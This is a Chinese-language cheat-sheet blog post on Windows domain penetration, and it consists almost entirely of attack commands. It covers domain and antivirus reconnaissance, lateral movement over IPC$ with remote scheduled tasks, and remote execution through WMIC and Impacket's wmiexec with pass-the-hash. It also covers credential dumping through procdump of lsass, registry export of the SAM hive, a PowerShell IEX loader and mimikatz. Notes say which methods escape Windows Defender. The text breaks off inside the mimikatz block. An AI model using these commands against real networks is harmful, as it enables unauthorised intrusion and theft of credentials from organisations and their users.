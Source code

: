 ```yaml
---
layout: post
title: 域渗透CMD命令集
---
```


## 0x00 信息收集

---

```
net view /domain:XXX
查看XXX域中的机器列表
net view /domain
查看内网中有多少个域
setspn -T jumbolab.com -Q */*
快速寻找内网中注册的服务
net user /domain
查看域用户
net group "domain admins" /domain
查看域管
net time /domain
定位域控。也可以通过ipconfig /all 一般DNS就是域控
nltest /domain_trusts
列出域信任关系
cmdkey /list
远程连接凭据
nslookup -type=ns domain.com
域传输漏洞。查找所有的DNS解析
dsquery computer domainroot -limit 65535 && net group "domain computers" /domain
列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain
列出该域内所有用户名
dsquery subnet
列出该域内网段划分
dsquery group && net group /domain
列出该域内分组 
dsquery ou
列出该域内组织单位 
dsquery server && net time /domain
列出该域内域控制器 
wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
列出杀软
wmic product get name,version
查看安装的软件
quser
查看在线用户
net config workstation
查看当前登陆域， 工作站域会显示出你当前的域叫 **，而工作组则只会显示出：WORKGROUP
dnsdump.exe -u 域名\与用户 -p 域密码 域控机器名
用普通域用户获取域内所有DNS解析
for /l %i in (1,1,255) do @ ping 10.233.33.%i -w 1 -n 1|find /i "ttl="
主机发现
find / -type f -uid +0
找不是root用户编辑的文件。用于找密码
tee可以替代>
```



## 0x01 IPC

```
net use \\IP\ipc$ "密码" /user:administrator
#建立IPC连接
net time \\IP
#获取远程IP的时间
copy calc.bat \\IP\C$
#把本地的calc.bat传到目标C盘
at \\IP 21:41 c:\calc.bat
#创建计划任务
at \\IP 21:41 cmd.exe /c  "ipconfig > c:\1.txt"
#直接执行命令
type \\IP\C$\1.txt
#获取命令执行结果
schtasks /create /s IP /tn 计划任务名 /sconstart /tr c:\calc.bat /ru system /f
#用schtasks命令创建计划任务
schtasks /delete /s IP /tn "计划任务名" /f 
```



## 0x02 WMI

- Impacket中的wmiexec.py

下载地址：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
wmic /node:IP /user:administrator /password:password process call create "cmd.exe /c ipconfig > c:\ip.txt"
type \\IP\C$\ip.txt
系统自带的WMIC命令。执行无日志
wmiexec.py Username:Password@IP

如果对wmiexec.py指定-hashes的话，则可进行哈希传递
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP    // 哈希传递获得shell
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP "ipconfig"   // 执行命令
```

- EXE版本的wmiexec.exe

  命令同wmiexec.py

- wmiexec.vbs

  ```
  cscript.exe //nologo wmiexec.vbs /shell IP username password
  // cscript用于在Windows中执行脚本
  ```

## 0x03 导出sam散列

- 使用Procdump dump内存，目前该操作会被windows Defender 查杀

  ```procdump64.exe -accepteula -ma lsass.exe lsass.dmp```

- 通过注册表导出，不会被查杀

  `reg save hklm\sam C:\hash\sam.hive`

  `reg save hklm\system C:\hash\system.hive`

- 通过powershell dump 

  ```powershell "IEX (New-ObjectNet.WebClient).DownloadString('c:/Get-PassHashes.ps1');  Get-PassHashes "```
  
- mimikatz

  ```
  mimikatz.exe 
  “sekurlsa::minidump lsass.dmp ” 
  “sekurlsa::logonPasswords full” exit
  
